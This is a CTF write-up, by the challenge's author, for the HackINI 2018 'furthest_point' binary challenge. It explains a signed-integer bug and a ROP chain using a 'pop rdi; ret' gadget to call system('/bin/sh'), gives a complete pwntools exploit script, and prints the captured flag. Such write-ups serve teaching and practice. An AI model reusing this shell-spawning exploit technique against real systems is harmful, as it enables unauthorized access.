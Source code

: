[![gadget](https://res.cloudinary.com/dik00g2mh/image/upload/v1558109422/hackini18/gadget_jyzc3t.png)](https://res.cloudinary.com/dik00g2mh/image/upload/v1558109422/hackini18/gadget_jyzc3t.png)

We found a gadget that does exactly that, pop rdi ; ret will pop a value from the stack into the rdi register, then it will return, putting everything together we get the following attack scenario:
- Send a negative number of points
- Send ``8`` newlines (empty lines, will keep the stack content)
- Send two space-separated integers, the first one is junk, the second one is the address of our pop rdi gadget (``0x04005a6``)
- Send two space-separated integers, the first one is ``0x69ee00+4`` (first 4 characters at ``0x69ee00`` will be ``"stop"``, so ``0x69ee00+4`` will point to ``"/bin/sh"``), the second one is the address of system (in our case, the ELF is statically linked, but even if it wasn't, we would have been able to return to its corresponding address in the plt section)
- Send ``"stop/bin/sh"`` plus a null byte ``'\0'``

```python
from pwn import *

p = process('./furthest_point')

p.send('-1\n') # -1 points

# fill the buffer (or just leave its content as it is)
for i in range(8):
	p.send('\n')

pop_rdi_ret = 0x4005a6 # pop rdi; ret
temp = 0x69ee00 # address of obj.temp (in the .bss section)
system = 0x408230 # address of system@plt

p.send('0 ' + str(pop_rdi_ret) + '\n') # only the second coordinate matters
p.send(str(temp+4) + ' ' + str(system) + '\n')
p.send('stop/bin/sh\x00\n')

p.interactive()
```

[![local exploit](https://res.cloudinary.com/dik00g2mh/image/upload/v1558109434/hackini18/local_u1eajz.png)](https://res.cloudinary.com/dik00g2mh/image/upload/v1558109434/hackini18/local_u1eajz.png)

The exploit works well locally (I get a shell), let's try it on the server now, I'll just remplace ``p = process(...)`` with ``p = remote(IP, port)`` in the script

[![remote exploit](https://res.cloudinary.com/dik00g2mh/image/upload/v1558109403/hackini18/remote_m9eohe.png)](https://res.cloudinary.com/dik00g2mh/image/upload/v1558109403/hackini18/remote_m9eohe.png)

Works well, I get a shell, I am john, and I can read the content of flag.txt

``HackINI2k18{Ints_c4n_b3_s1gned}``

I am the author of this challenge, it wasn't solved during the CTF unfortunately.

Link to download both challenges:
https://drive.google.com/file/d/1Dk3q0xUAa7g3GjhGX8aDP_KC4He51004/view?usp=sharing


I hope you've enjoyed the challenges :D
